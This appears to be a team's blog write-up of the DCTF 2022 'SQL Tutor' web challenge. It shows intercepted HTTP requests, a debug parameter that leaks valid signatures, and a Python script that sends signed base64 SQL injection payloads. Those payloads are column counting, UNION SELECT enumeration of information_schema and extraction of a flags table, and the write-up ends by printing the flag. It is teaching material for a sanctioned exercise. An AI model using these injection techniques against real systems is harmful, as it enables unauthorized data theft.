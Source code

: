 ```yaml
---
title: "SQL Tutor challenge writeup"
header:
  teaser: "/assets/images/CTFs/Flag.png"
tags: ["CTF", "SQL injection", "python"]
categories:
  - Web Exploitation 
ribbon: red
date: 2022-04-17T12:49:18+34:08
toc: true
draft: false
---
```


DCTF 2022 was held from the 15th of April Until the 17th of the month , and we have participated under the team 0xcha0s, we have managed to solve multiple challenges. this challenge was ranked easy.

<!--more-->

|             |                                                                                             |
| ----------- | ------------------------------------------------------------------------------------------- |
| CTF name    | [DCTF 2022](https://dctf.dragonsec.si/)                                                     |
| challenge   | SQL Tutor                                                                                   |
| category    | web                                                                                         |
| about       | SQL injection                                                                               |
| description | I found this awesome site for learning SQL. Check it out!                                   |
| points      | 200                                                                                         |
| team        | [0xCha0s](https://ctftime.org/team/168238)                                                  |
| solved By   | [0xMesbaha](https://hussienmisbah.github.io/) and [itsFading](https://itsfading.github.io/) |


## Discovery

we are introduced with this page which execute fixed SQL statements and take one input to fill the `...` in the query

![image](/assets/images/CTFs/SQL_Tutor/20220416155837.png)

However it wasn't that easy , there are some filters for special characters like `` [ ' " `]  `` and for some words like `UNION`

![image](/assets/images/CTFs/SQL_Tutor/20220416155856.png)

## Enumeration

Intercepting the request with Burpsuite to see what is going on , we can see the following :

```bash
POST /verify_and_sign_text HTTP/1.1
Host: sqltutor.dragonsec.si
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 22
Origin: https://sqltutor.dragonsec.si
Te: trailers
Connection: close

text=dGVzdG1l&alg=sha1
```

the text we sent has base64 encoded , and other argument is sent `alg` , sending this request to the repeater and view the response body we can see:

```json
{
  "status": "ok",
  "trimmedText": "dGVzdG1l",
  "signature": "f26039ef86a8c1218019b40e636d66ecfb45324a",
  "debug": null
}
```

it return status ok , if we have changed the text being sent to a text contain one of the Blacklisted characters we will got another response body :

```json
{
  "status": "error",
  "message": "Dangerous strings:[ ' ] in text!",
  "debug": null
}
```

Great , Forwarding the request , we can see another request is issued :

```bash
POST /execute HTTP/2
Host: sqltutor.dragonsec.si
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 74
Origin: https://sqltutor.dragonsec.si
Te: trailers

text=dGVzdG1l&signature=f26039ef86a8c1218019b40e636d66ecfb45324a&queryNo=0
```

and this request will be issued only if the first request passed returns `status:ok` , sending the latest request to the repeater to view the response we can see response body as :

```json
{
  "status": "ok",
  "query": "SELECT * FROM users WHERE users.name='testme'",
  "results": [],
  "description": "This query selects all users with the name 'testme'.",
  "debug": null
}
```

and we can see `"debug:null"` , we can try to add it as a parameter in the `/execute` request and will have the following results

![image](/assets/images/CTFs/SQL_Tutor/20220416161431.png)

we know now the steps it passed through before the execution , so we know that :

```
2 requests are issued :
1st one make sure the text doesn't contain a blacklisted element "the check is at the client side"
2nd one will decode the text form base64 , verify the signature and then execute the query
```

we can skip the first request easily and focus on the 2nd request , providing the `debug` parameter to know the tests we failed or passed

if we try to change the base64 encoded text in the request the old signature will not work

![image](/assets/images/CTFs/SQL_Tutor/20220416162046.png)

and thanks to the `debug` parameter we know what value should this signature be , so basically we need to issue the request 2 times one to get the valid signature and the other to send the payload associated with the valid signature

## Exploitation

we can automate the process to save the time and for efficiency , Let's Build the script :

- sending the request for the 1st time to extract the signature value :

```python
#!/usr/bin/python3
import requests
import base64


url= "https://sqltutor.dragonsec.si/execute"
payload ="""testme """.encode('utf-8')
encoded=base64.b64encode(payload).decode('utf-8')
data = {
"text":encoded,
"signature":"dummy",
"queryNo":"0",
"debug":"true"
}

r1= requests.post(url,data=data)
print(r1.text)
```

![image](/assets/images/CTFs/SQL_Tutor/20220416162632.png)

we will extract the signature value then update the signature parameter in the next request

```python
resp=r1.text
signature= resp.split('"compare":"')[1][0:40]

data["signature"]=signature
r2= requests.post(url,data=data)
print(r2.text)
```

![image](/assets/images/CTFs/SQL_Tutor/20220416162839.png)

Great the signature is okay and the query is executed , now we are ready to inject our text in the statement to be executed

From the debug output the query is :

```SQL
SELECT * FROM users WHERE users.name='test'
```

we need to know number of columns first , update the payload variable :

```python
payload ="""a' order by 8-- """.encode('utf-8')
```

![image](/assets/images/CTFs/SQL_Tutor/20220416163416.png)

keep fuzzing downwards until

```python
payload ="""a' order by 4-- """.encode('utf-8')
```

![image](/assets/images/CTFs/SQL_Tutor/20220416163440.png)

we know it has 4 columns , now let's enumerate the tables names :

```python
payload ="""a' UNION SELECT 1,2,3,table_name FROM information_schema.tables--""".encode('utf-8')
```

and we got this huge output :

![image](/assets/images/CTFs/SQL_Tutor/20220416163702.png)

Beautifying the output , we can notice the `flags` table :

![image](/assets/images/CTFs/SQL_Tutor/20220416163812.png)

- Let's update our payload :

```python
payload ="""a' UNION SELECT 1,2,3,flag FROM flags-- """.encode('utf-8')
```

![image](/assets/images/CTFs/SQL_Tutor/20220416163929.png)

and finally the flag is here

```bash
dctf{Pump_7h3_s7r3am_h4s5_up!_353aa965}
```

![](https://media.giphy.com/assets/images/CyoQdbc7FHqqTpkSPI/giphy.gif)
